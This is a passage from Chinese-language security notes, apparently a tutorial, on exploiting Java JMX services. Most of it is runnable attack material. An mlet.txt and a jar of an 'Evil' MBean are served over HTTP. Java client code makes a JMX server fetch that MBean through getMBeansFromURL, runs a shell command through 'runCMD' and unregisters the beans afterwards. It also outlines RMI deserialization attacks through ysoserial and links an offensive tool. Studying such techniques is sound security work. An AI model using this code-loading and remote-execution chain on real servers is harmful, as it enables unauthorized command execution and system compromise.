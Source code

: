 ```java
        }
    }
}

```

`mlet.txt`

```txt
<html><mlet code="Evil" archive="Evil.jar" name="EvilMBean:name=evil,id=1" codebase="http://127.0.0.1:4141"></mlet></html>
```

制作`Evil.jar`

```sh
jar cvf Evil.jar .\Evil.class .\EvilMBean.class
```

将`mlet.txt`和`Evil.jar`放在web服务目录，`python -m http.server 4141`开启服务

```java
JMXServiceURL serviceURL = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://127.0.0.1:2222/jmxrmi");
Map env = new Properties();
MBeanServerConnection con = JMXConnectorFactory.connect(serviceURL, env).getMBeanServerConnection();
ObjectInstance bean = null;
ObjectInstance evil = con.createMBean("javax.management.loading.MLet", null);
Object res = con.invoke(evil.getObjectName(), "getMBeansFromURL", new Object[]{
    "http://127.0.0.1:4141/mlet.txt"
}, new String[]{String.class.getName()});
HashSet res_set = (HashSet) res;
Object obj = res_set.iterator().next();
if (obj instanceof InstanceAlreadyExistsException) {
    // 恶意mbean已经存在，则直接获取
    bean = con.getObjectInstance(new ObjectName("EvilMBean:name=evil,id=1"));
} else if (obj instanceof Exception) {
    throw ((Exception) obj);
} else {
    bean = ((ObjectInstance) obj);
}
System.out.println(con.invoke(bean.getObjectName(), "runCMD", new Object[]{"dir"}, new String[]{String.class.getName()}));
try {
    con.unregisterMBean(new ObjectName("DefaultDomain:type=MLet"));
    con.unregisterMBean(new ObjectName("EvilMBean:name=evil,id=1"));
} catch (InstanceNotFoundException e) {
}
```

缺点：需要设置`jmx.remote.x.mlet.allow.getMBeansFromURL=true`才能调用`getMBeansFromURL`

### RMI Deserial

由于JMX Connector是基于RMI的，因此对于RMI的攻击同样适用于这里。

远程调用MBean方法时，方法参数在服务端经过`MarshalledObject.readObject()`反序列化

JMX对参数类型的验证并不严格，传入`MBeanServerConnection.invoke`的两个参数分别是方法参数和参数类型，只需要参数类型校验成功即可。

ysoserial中集成了这种攻击方法的payload

`ysoserial.exploit.JMXInvokeMBean`

## Tools

https://github.com/qtc-de/beanshooter
